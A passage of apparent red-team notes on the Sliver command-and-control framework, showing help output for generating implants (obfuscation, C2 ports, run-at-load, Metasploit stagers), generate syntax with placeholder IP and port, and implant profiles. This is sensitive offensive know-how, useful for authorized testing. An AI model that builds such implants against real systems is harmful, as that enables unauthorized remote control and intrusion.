 ```
  -o, --os                 string    operating system (default: windows)
  -P, --poll-timeout       int       long poll request timeout (default: 360)
  -j, --reconnect          int       attempt to reconnect every n second(s) (default: 60)
  -R, --run-at-load                  run the implant entrypoint from DllMain/Constructor (shared library only)
  -s, --save               string    directory/file to the binary to
  -l, --skip-symbols                 skip symbol obfuscation
  -Z, --strategy           string    specify a connection strategy (r = random, rd = random domain, s = sequential)
  -T, --tcp-comms          int       wg c2 comms port (default: 8888)
  -i, --tcp-pivot          string    tcp-pivot connection strings
  -I, --template           string    implant code template (default: sliver)
  -t, --timeout            int       command timeout in seconds (default: 60)
  -g, --wg                 string    wg connection strings


Sub Commands:
=============
  beacon  Generate a beacon binary
  info    Get information about the server's compiler
  stager  Generate a stager using Metasploit (requires local Metasploit installation)
```

### 4.2.2 - Usage

* Syntax

This beacon will be on interactive (session) mode

```
sliver > generate -m <IP>:<PORT> -a <architecture> -o <platform> -f <format> -s /path/to/directory

sliver > generate -b http[s]://<IP>:<PORT> -a <architecture> -o <platform> -f <format> -s /path/to/folder
```

### 4.2.3 - Profiles

#### 4.2.3.1 - Help Menu

```
sliver > profiles new -h

Command: new <options> <profile name>
About: Create a new profile with a given name and options, a name is required.

++ Profiles ++
Profiles are an easy way to save an implant configuration and easily generate multiple copies of the binary with the same
settings. Generated implants will still have per-binary certificates/obfuscation/etc. This command is used with "profiles generate":
        profiles new --mtls foo.example.com --canary 1.foobar.com my-profile-name
        profiles generate my-profile-name


Usage:
======
  new [flags] [name]

Args:
=====
  name  string    name of the profile

Flags:
======
```